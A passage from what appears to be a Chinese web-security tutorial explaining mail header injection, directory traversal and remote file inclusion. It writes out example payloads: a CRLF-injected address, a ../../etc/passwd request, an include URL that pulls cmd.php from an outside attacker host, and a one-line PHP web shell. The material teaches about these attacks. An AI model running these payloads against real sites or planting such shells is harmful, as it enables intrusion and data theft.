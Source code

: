 %0D%0A 在邮件报文中代表换行符。一旦咨询表单所在的 Web 应用接收了这个换行符，就可能实现对 Bcc 邮件地址的追加发送，而这原本是无法指定的。 

另外像下面一样，使用两个连续的换行符就有可能篡改邮件文本内容并发送。 

> bob@hackr.jp%0D%0A%0D%0ATest Message 

再以相同的方法，就有可能改写 To 和 Subject 等任意邮件首部，或向文本添加附件等动作。 

- 目录遍历（Directory Traversal）攻击是指对本无意公开的文件目录，通过非法截断其目录路径后，达成访问目的的一种攻击。这种攻击有时也称为路径遍历（Path Traversal）攻击。 

通过 Web 应用对文件处理操作时，在由外部指定文件名的处理存在疏漏的情况下，用户可使用 .../ 等相对路径定位到 /etc/passed 等绝对路径上，因此服务器上任意的文件或文件目录皆有可能被访问到。这样一来，就有可能非法浏览、篡改或删除 Web 服务器上的文件。 

固然存在输出值转义的问题，但更应该关闭指定对任意文件名的访问权限。 

以下查询字段，指定某个文件名。然后从 /www/log/ 文件目录下读取这个指定的文件。 

> http://example.com/read.php?log=0401.log

攻击者设置如下查询字段后发出请求。 

> http://example.com/read.php?log=../../etc/passwd

查询字段为了读取攻击者盯上的 /etc/passwd 文件，会从 /www/log/ 目录开始定位相对路径。如果这份 read.php 脚本接受 对指定目录的访问请求处理，那原本不公开的文件就存在可被访问的风险。 

![1565844693263](./images/1565844693263.png)

http://example.com/foo.php 的源代码（部分摘录） 

> $modname = $_GET['mod'];
>
> include($modname); 

攻击者指定如同下面形式的 URL发出请求。 

> http://example.com/foo.php?mod=http://hackr.jp/cmd.php&cmd=ls

攻击者已事先在外部服务器上准备了以下这段脚本。 

> http://hackr.jp/cmd.php 的源代码
>
> <? system($_GET['cmd']) ?> 
